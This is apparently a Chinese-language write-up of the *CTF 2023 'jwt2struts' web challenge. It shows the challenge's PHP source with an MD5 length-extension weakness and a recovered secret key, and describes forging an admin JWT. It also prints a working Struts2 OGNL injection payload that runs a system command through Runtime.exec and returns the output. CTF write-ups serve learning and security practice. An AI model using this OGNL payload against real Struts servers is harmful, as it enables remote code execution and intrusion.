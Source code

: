 \*ctf
https://github.com/sixstars/starctf2023
# web
### jwt2struts
```php
<?php
highlight_file(__FILE__);
include "./secret_key.php";
include "./salt.php";
//$salt = XXXXXXXXXXXXXX // the salt include 14 characters
//md5($salt."adminroot")=e6ccbf12de9d33ec27a5bcfb6a3293df
@$username = urldecode($_POST["username"]);
@$password = urldecode($_POST["password"]);
if (!empty($_COOKIE["digest"])) {
    if ($username === "admin" && $password != "root") {
         if ($_COOKIE["digest"] === md5($salt.$username.$password)) {
            die ("The secret_key is ". $secret_key);
        }
        else {
            die ("Your cookies don't match up! STOP HACKING THIS SITE.");
        }
    }
    else {
        die ("no no no");
    }
}
```

md5扩展攻击

获取到secret-key`sk-he00lctf3r` 根据题目名也知道应该是要考struts
伪造jwt为admin
在age框里输入*payload*可以回显命令执行结果
> 当用户提交 age 为字符串而非整形数值时，后端用代码拼接 "'" + value + "'" 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。
```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```


# reverse
### GoGpt
一道go的逆向题
直接用ida8.3就可以,不需要go_parse插件了

异或+base64

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-31   18:44
